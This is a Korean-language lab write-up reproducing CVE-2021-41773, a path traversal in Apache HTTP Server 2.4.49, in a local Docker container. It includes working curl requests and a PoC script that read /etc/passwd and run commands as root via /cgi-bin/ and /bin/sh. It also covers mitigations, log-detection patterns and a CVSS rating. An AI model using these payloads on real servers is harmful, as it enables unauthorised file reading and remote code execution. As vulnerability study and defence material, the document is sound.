

# CVE-2021-41773 Apache HTTP Server 2.4.49 Path Traversal 및 RCE

## 1. 취약점 요약

CVE-2021-41773은 Apache HTTP Server 2.4.49에서 발생하는 Path Traversal 취약점이다.

URL 경로에 인코딩된 상위 경로 표현을 넣으면 Apache가 이를 제대로 차단하지 못해 공개 디렉터리 밖의 파일에 접근할 수 있다.

CGI가 활성화된 환경에서는 `/bin/sh` 같은 실행 파일까지 접근할 수 있어 명령 실행으로 이어질 수 있다.

이번 실습에서는 다음 두 가지를 확인했다.

- `/etc/passwd` 파일 읽기
- CGI를 이용한 `id` 명령 실행

---

## 2. 환경 구성

| 항목 | 내용 |
| --- | --- |
| Host OS | Windows |
| Docker | Docker Desktop |
| Backend | WSL2 |
| Apache | 2.4.49 |
| Base image | Debian bullseye-slim |
| 접속 주소 | `http://localhost:8080` |

### 파일 구조

```text
Apache/CVE-2021-41773/
├── Dockerfile
├── docker-compose.yml
├── httpd.conf
├── poc.sh
├── README.md
└── images/
    ├── 01-environment.png
    ├── 02-path-traversal.png
    └── 03-rce.png
```

---

## 3. 취약 조건

근본 원인은 Apache HTTP Server 2.4.49의 경로 정규화 처리 오류다.

이번 환경에서는 아래 조건으로 파일 읽기와 명령 실행을 재현했다.

- Apache HTTP Server 2.4.49 사용
- `/icons/` Alias 활성화
- `/cgi-bin/` ScriptAlias 활성화
- 대상 디렉터리에 `Require all granted` 설정
- CGI 모듈 활성화

파일 읽기에는 `/icons/` 경로를 사용했다.

```apache
Alias /icons/ "/usr/local/apache2/icons/"

<Directory "/usr/local/apache2/icons">
    AllowOverride none
    Options Indexes FollowSymLinks
    Require all granted
</Directory>
```

명령 실행에는 `/cgi-bin/` 경로를 사용했다.

```apache
LoadModule cgi_module modules/mod_cgi.so
ScriptAlias /cgi-bin/ "/usr/local/apache2/cgi-bin/"

<Directory "/usr/local/apache2/cgi-bin">
    AllowOverride none
    Options +ExecCGI
    Require all granted
</Directory>
```

---

## 4. 환경 실행

아래 명령으로 이미지 빌드와 컨테이너 실행을 한 번에 진행한다.

```bash
docker compose up -d --build
```

실행 상태 확인:

```bash
docker compose ps
```

정상 실행되면 `STATUS`가 `Up`으로 표시된다.

Apache 버전 확인:

```bash
docker compose run --rm apache /usr/local/apache2/bin/httpd -v
```

확인한 버전:

```text
Server version: Apache/2.4.49 (Unix)
```

기본 페이지 확인:

```bash
curl -i http://localhost:8080/
```

CGI 동작 확인:

```bash
curl -i http://localhost:8080/cgi-bin/test.sh
```

---

## 5. 재현 절차

### 5.1 Path Traversal을 이용한 파일 읽기

아래 요청으로 컨테이너 내부의 `/etc/passwd` 파일을 읽는다.

```bash
curl --path-as-is -i \
  "http://localhost:8080/icons/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```

`--path-as-is` 옵션은 curl이 요청 경로를 정리하지 않고 그대로 전송하게 한다.

### 5.2 CGI를 이용한 명령 실행

아래 요청으로 `/bin/sh`에 접근한 뒤 `id` 명령을 전달한다.

```bash
curl --path-as-is -i \
  -X POST \
  "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" \
  --data-binary "echo Content-Type: text/plain; echo; id"
```

---

## 6. PoC 코드

`poc.sh`는 Apache 버전 확인, 파일 읽기, 명령 실행을 순서대로 수행한다.

```bash
#!/usr/bin/env bash

set -eu

TARGET="http://localhost:8080"

echo "[+] Target: ${TARGET}"
echo

echo "[1] Apache version check"
curl --silent --show-error --head "${TARGET}/" \
  | grep -i "^Server:" || true

echo
echo "[2] Path Traversal - read /etc/passwd"
curl --silent --show-error --path-as-is \
  "${TARGET}/icons/.%2e/.%2e/.%2e/.%2e/etc/passwd" \
  | head -n 5

echo
echo "[3] CGI Path Traversal - command execution"
curl --silent --show-error --path-as-is \
  --request POST \
  "${TARGET}/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" \
  --data-binary 'echo Content-Type: text/plain; echo; id'

echo
echo "[+] PoC completed"
```

Git Bash에서 실행한다.

```bash
chmod +x poc.sh
./poc.sh
```

---

## 7. 실행 결과

### 7.1 환경 실행 확인

```bash
docker compose ps
```

Apache 컨테이너가 `Up` 상태로 실행되는 것을 확인했다.

```text
NAME                    IMAGE                   STATUS    PORTS
cve-2021-41773-apache   cve-2021-41773-apache  Up        0.0.0.0:8080->80/tcp
```

Apache 버전:

```text
Server version: Apache/2.4.49 (Unix)
```



### 7.2 파일 읽기

`/icons/` 경로에 인코딩된 상위 경로 표현을 넣어 `/etc/passwd`를 요청했다.

응답 상태는 `200 OK`였고 다음 내용을 확인했다.

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```


### 7.3 명령 실행

`/cgi-bin/` 경로를 통해 `/bin/sh`에 접근한 뒤 `id` 명령을 전달했다.

```text
uid=0(root) gid=0(root) groups=0(root)
```

컨테이너 내부에서 명령이 root 권한으로 실행됐다.


---

## 8. 대응 방안

### 8.1 Apache 버전 업데이트

Apache HTTP Server 2.4.49를 사용하지 않는다.

2.4.50에서도 우회 문제가 확인됐으므로 2.4.51 이상으로 업데이트한다. 운영 환경에서는 현재 지원되는 최신 안정 버전을 사용하는 것이 좋다.

```text
취약 버전: 2.4.49
권장 버전: 2.4.51 이상
```

### 8.2 디렉터리 접근 제한

서버 전체 경로에 접근을 허용하지 않는다.

```apache
<Directory />
    AllowOverride none
    Require all denied
</Directory>
```

외부 공개가 필요한 디렉터리만 따로 허용한다.

```apache
<Directory "/usr/local/apache2/htdocs">
    Require all granted
</Directory>
```

### 8.3 사용하지 않는 CGI 비활성화

CGI 기능을 사용하지 않는다면 `mod_cgi`와 `ScriptAlias` 설정을 제거한다.

```apache
# LoadModule cgi_module modules/mod_cgi.so
# ScriptAlias /cgi-bin/ "/usr/local/apache2/cgi-bin/"
```

CGI가 필요한 경우에도 실행 가능한 경로와 파일을 최소한으로 제한한다.

### 8.4 비정상 경로 요청 점검

웹 서버 로그에서 인코딩된 상위 경로 요청을 확인한다.

```text
.%2e
%%32%65
/cgi-bin/
```

같은 형태의 요청이 반복되면 공격 시도 여부를 점검한다.

### 8.5 웹 서버 권한 제한

웹 서버 프로세스에 불필요한 root 권한을 부여하지 않는다.

Apache 전용 계정을 사용하고 접근 가능한 파일과 디렉터리를 최소화한다. 컨테이너에서도 실행 사용자와 파일 권한을 함께 점검해야 한다.

이 조치는 명령 실행이 발생했을 때 피해 범위를 줄이기 위한 보조 대책이다.

---

## 9. Risk Score

```text
Risk Score: 9.8 / 10.0
Severity: Critical
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

### 판단 근거

| 항목 | 값 | 확인 내용 |
| --- | --- | --- |
| 공격 경로 | Network | HTTP 요청으로 원격 공격 가능 |
| 공격 복잡도 | Low | 조작된 경로 요청만으로 재현 가능 |
| 필요 권한 | None | 로그인이나 인증 불필요 |
| 사용자 상호작용 | None | 피해자의 추가 동작 불필요 |
| 기밀성 영향 | High | 서버 내부 파일 읽기 가능 |
| 무결성 영향 | High | CGI를 통한 명령 실행 가능 |
| 가용성 영향 | High | 실행 명령에 따라 서비스 중단 가능 |

이번 환경에서는 `/etc/passwd` 파일 읽기와 root 권한 명령 실행을 직접 확인했다.

---

## 10. Reproducibility

```text
Reproducibility: 95%
```

기존 컨테이너와 이미지를 삭제한 뒤 캐시 없이 다시 빌드했다.

```bash
docker compose down --volumes --remove-orphans --rmi local
docker compose build --no-cache
docker compose up -d
./poc.sh
```

재빌드 후에도 아래 결과를 다시 확인했다.

```text
Server: Apache/2.4.49 (Unix)
root:x:0:0:root:/root:/bin/bash
uid=0(root) gid=0(root) groups=0(root)
```

제출 파일만으로 환경과 PoC를 다시 실행할 수 있었다.

다만 Apache 소스와 패키지를 외부 저장소에서 내려받는 과정은 네트워크 상태에 영향을 받을 수 있어 100%로 평가하지 않았다.

---

## 11. 환경 종료

컨테이너와 네트워크 종료:

```bash
docker compose down
```

이미지까지 삭제:

```bash
docker compose down --rmi local
```

---

## 12. 참고 자료

- Apache HTTP Server 2.4 Vulnerabilities  
  https://httpd.apache.org/security/vulnerabilities_24.html
- NVD CVE-2021-41773  
  https://nvd.nist.gov/vuln/detail/CVE-2021-41773
- Apache HTTP Server Archive  
  https://archive.apache.org/dist/httpd/
- Korean Vulhub  
  https://github.com/gunh0/kr-vulhub